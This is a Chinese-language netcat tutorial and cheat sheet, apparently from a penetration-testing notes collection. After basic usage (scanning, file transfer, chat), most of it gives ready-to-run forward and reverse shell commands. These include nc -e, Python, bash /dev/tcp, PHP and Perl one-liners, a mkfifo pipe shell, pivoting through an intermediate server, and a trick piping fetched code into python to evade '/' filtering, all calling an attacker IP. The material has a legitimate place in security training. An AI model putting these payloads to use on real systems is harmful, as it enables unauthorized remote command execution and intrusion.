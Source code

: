 ```yaml
---
title: "nc"
id: zhfly3450
---
```


# netcat

### 1、安装

```
wget http://sourceforge.net/projects/netcat/files/netcat/0.7.1/netcat-0.7.1.tar.gz/download -O netcat-0.7.1.tar.gz
tar zxvf netcat-0.7.1.tar.gz
cd netcat-0.7.1
./configure
make 
```

![u87.png](../img/39bdfc50a20ad42af1edc780a771eac3.png)

windows版本的nc。在禁用-e远程执行选项的情况下编译的版本。

> https://joncraton.org/files/nc111nt.zip

> https://joncraton.org/files/nc111nt_safe.zip

### 2、帮助信息速查表

nc -h 查看帮助信息
-d: 后台模式
-e: 程序重定向
-g<网关>: 设置路由器跃程通信网关，最多可设置8个。
-G<指向器数目>: 设置源路由指向器的数量，值为4的倍数。
-i<延迟秒数>: 设置时间间隔，以便传送信息及扫描通信端口
-l: 使用监听模式，管理和控制传入的数据
-n: 直接使用IP地址(不通过域名服务器)
-o<输出文件>: 指定文件名称，把往来传输的数据转换为16进制字符后保存在该文件中
-p<通信端口>: 设置本机使用的通信端口
-r: 随机指定本机与远程主机的通信端口
-s<源地址>: 设置本机送出数据包的IP地址
-u: 使用UDP传输协议
-v: 详细输出
-w<超时秒数>:设置等待连线的时间
-z: 将输入/输出功能关闭，只在扫描通信端口时使用

### 3、使用

*   (1) banner相关信息抓取

> nc -nv 192.168.123.103 22

![u88.png](../img/9786b41ca89ce85602a56c1bac1c1e13.png)

*   (2) 连接远程主机

> nc -nvv 192.168.123.103 80

![u89.png](../img/46375790c1b33e77517960d5960df5fd.png)

*   (3) 端口扫描
    扫描指定端口

> nc -v 192.168.123.103 80

扫描端口段(速度很慢)

> nc -v -z 192.168.123.103 20-1024

![u90.png](../img/24a3a48d9dfb4972bfa60cc0767dda3d.png)

*   (4)监听端口
    监听本地端口，当访问该端口时会输出该信息到命令行

> nc -lp 999

![u91.png](../img/8db5053e8dc0ef26cc7edbe23ca197ce.png)

*   (5)文件传输
    传输一个名为test.txt的文本文件

> nc -vn 192.168.1.1 333 < test.txt -q 1

监听，将接受到的数据放到1.txt

> nc -lp 333 > 1.txt

传输完成后，打开1.txt，可看到数据已经传输过来

![a25.png](../img/77815db0a0d3a36703e985d2abe8cd99.png)

*   (6)简易聊天

> nc -l -p 888

> nc -vn 192.168.1.1 888

![u94.png](../img/081fa384458a2047cd042296be5b0a58.png)

### 4、获取shell

*   (1)正向shell
    客户端连接服务器，客户端获取服务器的shell。(目标机监听，攻击机连接)
    目标机命令：

> nc -lvp 4444 -e /bin/sh 在linux中使用

> nc -lvp 4444 -e c:\windows\system32\cmd.exe 在win中使用

攻击机命令：

> nc 192.168.1.1 4444

![u95.png](../img/2a705745103d78d40abbc1dac1197d15.png)
可以看到我们执行ifconfig,变成了目标机的IP,即拿到了目标机的shell

*   (2)反向shell
    客户端连接服务器，服务器获取客户端的shell。通常用在开启防护措施的目标机，如防火墙过滤、端口转发的等。
    (攻击机监听，目标机连接)
    攻击机命令：

> nc -lvp 999

目标机：

> nc 192.168.1.1 999 -e /bin/sh 在linux中使用

> nc 192.168.1.1 999 -e c:\windows\system32\cmd.exe 在win中使用

![u96.png](../img/efcf24322e8fa56c08e021dfbf0fdf75.png)

### 5、目标机无nc时获取反向shell

*   (1)python反向shell

```
攻击机：

nc -lvp 2222

目标机： `python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.136.129”,2222));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);’` 
```

![p22.png](../img/f4224b2636463f9b6f99a8152c026c04.png)

*   (2)bash反向shell

```
攻击机：
nc -lvp 4444 `目标机：

bash -i >& /dev/tcp/192.168.136.129/4444 0>&1` 
```

![p23.png](../img/6b0d2854faa77234a40f78c01fd12d52.png)

*   (3)PHP反向shell

```
攻击机：
nc -lvp 3333 `目标机：

php -r ‘$sock=fsockopen(“192.168.136.129”,3333);exec("/bin/sh -i <&3 >&3 2>&3");’` 
```

![p24.png](../img/25fbfdc5922ee3bc2941f8f03c707ef9.png)

*   (4)perl反向shell

攻击机：
nc -lvp 5555

目标机：

```
perl -e 'use Socket;$i="192.168.136.129";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' 
```

![p25.png](../img/ba7ca77e92cbcc05518a8a12cb3ce9cd.png)

*   (5)内网代理
    环境：kali无法访问数据库服务器，但是可以通过web服务器访问数据库服务器

    kali执行:
    nc -lvp 3333
    数据库执行:
    nc -lvp 3333 -e /bin/sh
    web服务器执行：
    nc -v 192.168.1.4 3333 -c "nc -v 1.1.1.200 3333"

原理：把web服务器当作中间机，使kali与数据库通信

*   (6)技巧之'/'符号绕过(文件传输与python反向shell结合)(来自"熊猫人"的思路)
    前提:靶机可以执行nc和pyhon
    要想反弹shell成功，很大程度上需要'/'符号，但是有些网站，bp发过去的'/'不起作用。

利用nc的传输文件:
nc -lnvp 5555 < cmd
nc localhost 5555 可查看cmd文件内容
cmd的内容如下

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.136.141",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]) 
```

![i27.png](../img/a1df7a99bdc386cc9d81fddf6447c22d.png)

```
攻击机执行：
nc -lnvp 10000 < cmd 如果shell反弹不回去，关掉这部分
nc -lnvp 1234
目标机执行：
nc 192.168.136.129 10000 | python 
```

![i25.png](../img/f4876249ff1a83a1cd141d5eb2f62bf7.png)

*   (7)对于不支持nc -e参数，使用以下命令或使用其他版本nc

```
攻击机：
nc -lvp 1024
目标机：
nc.traditional 192.168.37.132 1024 -e /bin/sh 
```

![a37.png](../img/7c708d9da9c4571690a8ece0380fb126.png)

*   (8)配合命名管道进行反弹

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 192.168.37.132 1024 >/tmp/f 
```

![a38.png](../img/e11a7ef60a20f4070c8ac851b487e389.png)

*   (9)使用exec反弹

```
0<&196;exec 196<>/dev/tcp/192.168.37.132/1024; sh <&196 >&196 2>&196 
```

![a39.png](../img/99ca8fcb6e52c008e28254bf9868320b.png)